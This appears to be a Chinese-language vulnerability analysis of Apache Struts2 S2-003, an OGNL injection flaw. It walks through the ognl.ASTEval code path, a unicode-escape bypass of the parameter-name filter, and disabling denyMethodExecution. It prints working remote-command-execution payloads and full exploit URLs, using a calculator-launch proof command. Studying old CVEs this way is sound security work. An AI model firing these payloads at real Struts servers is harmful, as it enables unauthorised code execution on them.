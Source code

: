 # S2-003漏洞分析

文章里面多了很多我自己的见解没有单纯去copy

## 注意

强烈建议将Tomcat使用Tomcat7以下，这里我用的Tomcat6.0.20，高版本出现特殊符号会报错(4XX)

当然高版本也是可以用的怎么说呢

## 漏洞影响版本

Struts 2.0.0 - Struts 2.0.11.2

## 分析

漏洞触发形式为 `(one)(two)` 表达形式，属于 `ASTEval` 类型，一些详情可以看https://xz.aliyun.com/t/111，属于是不想看了

我们可以看看`ognl.ASTEval#getValueBody`的执行流程

![](img/1.png)

1. 取 one的内容，调用 `getValue()` 方法计算后赋值到 expr 
2. 取 two的内容，赋值给 source
3. 判断 expr 是否为 node 类型，是的话直接转型，否则调用 `Ognl.parseExpression()` 进行解析强转为 node 类型
4. 将 source 放入 root 中并调用 node 的 `setValue()` 方法进行解析

同时如果one 的结果是一个 AST，OGNL 将简单的执行解释它，否则 OGNL 将这个对象转换为字符串形式然后解析这个字符串

学习su18师傅的比如这样

```java
('@java.lang.Runtime'+'@getRuntime().exec(\'open -a Calculator.app\')')('aaa')
('@java.lang.Runtime@'+'getRuntime().exec(#aa)')(#aa='open -a Calculator.app')
```

但是同样的payload放在`setValue`就不行了

![](img/2.png)

这里不能触发原因是这里，而我们之前的`ognl.ASTChain#getValueBody`是`super.children.length - 1`

![](img/4.png)

如果我这里手动改为-1的值，确实可以成功触发的

![](img/5.png)

回到这个话题，目的是通过这个setValue去解决，可是为什么报错主要是`ASTMethod`没有`setValueBody`导致的

![](img/6.png)

但是我们仔细看，在之前`ognl.ASTEval#setValueBody`，可以在这里触发`getValue`

我们之前的payload

```java
Object o = Ognl.parseExpression("('@java.lang.Runtime@'+'getRuntime().exec(#aa)')(#aa='open -a Calculator.app')");
```

到了这里就是

![](img/7.png)

那如果我们能到这里构造就触发那不就行了吗

![](img/3.png)

可以看到如果在不是常量就会去调用`getValueBody`

![](img/8.png)

可以

```java
Object o = Ognl.parseExpression("(@java.lang.Runtime@getRuntime().exec('open -a Calculator.app'))('')");
```

或者

```java
 Object o = Ognl.parseExpression("('@java.lang.Runtime@'+'getRuntime().exec(#aa)')(#aa='open -a Calculator.app')('y4tacker')");
```

都可以成功弹出计算器这时候高高兴兴拿着payload去打

![](img/9.png)

这里首先遇到的第一个坑是`acceptableName`其实是一个过滤

```java
    protected boolean acceptableName(String name) {
        return name.indexOf(61) == -1 && name.indexOf(44) == -1 && name.indexOf(35) == -1 && name.indexOf(58) == -1 && !this.isExcluded(name);
    }
```

不能出现这些字符，绕过方式很简单，这里在对表达式进行解析时，由于在 `OgnlParserTokenManager` 方法中使用了 `ognl.JavaCharStream#readChar()` 方法，在读到 `\\u` 的情况下，会继续读入 4 个字符，并将它们转换为 char，因此 OGNL 表达式实际上支持了 unicode 编码，这就绕过了之前正则或者字符串判断的限制

因此payload改为

```java
('@java.lang.Runtime@'+'getRuntime().exec(\u0023aa)')(\u0023aa\u003d'open\u0020-a\u0020Calculator.app')('y4tacker')
```

这里调用静态函数受`xwork.MethodAccessor.denyMethodExecution`属性影响

![](img/10.png)

在这之前就调用了，所以要想执行命令首先得要把这个属性设置为false

![](img/11.png)

得到最终payload了

```java
http://127.0.0.1:8080/login.action?(%27\u0023context[\%27xwork.MethodAccessor.denyMethodExecution\%27]\u003dfalse%27)(abc)(def)&('\u0040java.lang.Runtime%40'%2B'getRuntime().exec(%5Cu0023aa)')(%5Cu0023aa%5Cu003d'open%5Cu0020-a%5Cu0020Calculator.app')('y4tacker')
```

这里你可能会好奇为什么我的payload这个`@`符号明明没有在被过滤但是也用了`unicode`编码，这里的迭代器是来源于`TreeMap`是有序的

![](img/12.png)

## 高版本触发

只需要将一些关键字符url编码下即可

```
http://127.0.0.1:8080/login.action?(%27%5Cu0023context%5B%5C'xwork.MethodAccessor.denyMethodExecution%5C'%5D%5Cu003dfalse')(abc)(def)&('%5Cu0040java.lang.Runtime%40'%2B'getRuntime().exec(%5Cu0023aa)')(%5Cu0023aa%5Cu003d'open%5Cu0020-a%5Cu0020Calculator.app')('y4tacker')
```



## 参考文章

https://xz.aliyun.com/t/111

https://su18.org/post/struts2-1/#s2-003
